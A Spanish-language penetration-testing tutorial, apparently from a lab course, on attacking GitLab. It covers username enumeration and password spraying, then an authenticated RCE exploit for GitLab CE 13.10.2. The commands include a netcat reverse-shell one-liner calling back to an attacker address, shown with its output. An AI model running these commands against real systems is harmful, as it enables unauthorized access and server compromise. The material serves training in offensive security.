 Como vimos en la sección anterior, incluso el acceso no autenticado a una instancia de GitLab podría llevar a la exposición de datos sensibles. Si logramos acceder como un usuario válido de la empresa o un administrador, podríamos potencialmente descubrir suficiente información para comprometer completamente la organización de alguna manera. GitLab tiene [553 CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-13074/Gitlab.html) reportados hasta septiembre de 2021. Aunque no todos son explotables, ha habido varios severos a lo largo de los años que podrían llevar a la ejecución remota de código.

---

## Username Enumeration

Aunque GitLab no lo considera una vulnerabilidad como se ve en su página de [Hackerone](https://hackerone.com/gitlab?type=team) ("User and project enumeration/path disclosure unless an additional impact can be demonstrated"), sigue siendo algo que vale la pena verificar ya que podría resultar en acceso si los usuarios eligen contraseñas débiles. Podemos hacerlo manualmente, por supuesto, pero los scripts hacen nuestro trabajo mucho más rápido. Podemos escribir uno nosotros mismos en Bash o Python o usar [este](https://www.exploit-db.com/exploits/49821) para enumerar una lista de usuarios válidos. La versión en Python3 de esta misma herramienta se puede encontrar [aquí](https://github.com/dpgg101/GitLabUserEnum). Como con cualquier tipo de ataque de password spraying, debemos tener en cuenta el bloqueo de cuentas y otros tipos de interrupciones. Los valores predeterminados de GitLab están configurados para 10 intentos fallidos que resultan en un desbloqueo automático después de 10 minutos. Esto se puede ver [aquí](https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/initializers/8_devise.rb). Esto puede cambiarse, pero GitLab tendría que ser compilado desde la fuente. En este momento, no hay forma de cambiar esta configuración desde la UI del administrador, pero un administrador puede modificar la longitud mínima de la contraseña, lo que podría ayudar con los usuarios que eligen contraseñas cortas y comunes, pero no mitigará completamente el riesgo de ataques de contraseña.

```r
# Number of authentication tries before locking an account if lock_strategy
# is failed attempts.
config.maximum_attempts = 10

# Time interval to unlock the account if :time is enabled as unlock_strategy.
config.unlock_in = 10.minutes
```

Descargando el script y ejecutándolo contra la instancia de GitLab objetivo, vemos que hay dos nombres de usuario válidos, `root` (la cuenta de administrador integrada) y `bob`. Si logramos obtener una lista grande de usuarios, podríamos intentar un ataque controlado de password spraying con contraseñas débiles y comunes como `Welcome1` o `Password123`, etc., o intentar reutilizar credenciales obtenidas de otras fuentes como filtraciones de datos públicos.

```r
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  			             GitLab User Enumeration Script
   	    			             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302
```

---

## Authenticated Remote Code Execution

Las vulnerabilidades de ejecución remota de código suelen considerarse la "crema de la crema" ya que el acceso al servidor subyacente probablemente nos otorgará acceso a todos los datos que residen en él (aunque es posible que necesitemos escalar privilegios primero) y puede servir como un punto de apoyo en la red para lanzar más ataques contra otros sistemas y potencialmente resultar en un compromiso total de la red. GitLab Community Edition versión 13.10.2 y anteriores sufrieron una vulnerabilidad de ejecución remota de código autenticada [vulnerability](https://hackerone.com/reports/1154542) debido a un problema con ExifTool manejando metadatos en archivos de imagen subidos. Este problema fue solucionado rápidamente por GitLab, pero es probable que algunas empresas aún utilicen una versión vulnerable. Podemos usar este [exploit](https://www.exploit-db.com/exploits/49951) para lograr RCE.

Como se trata de una ejecución remota de código autenticada, primero necesitamos un nombre de usuario y una contraseña válidos. En algunos casos, esto solo funcionará si podemos obtener credenciales válidas a través de OSINT o un ataque de adivinación de credenciales. Sin embargo, si encontramos una versión vulnerable de GitLab que permita el registro automático, podemos registrarnos rápidamente para una cuenta y llevar a cabo el ataque.

```r
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '

[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

Y obtenemos una shell casi instantáneamente.

```r
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id

id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
sockets
```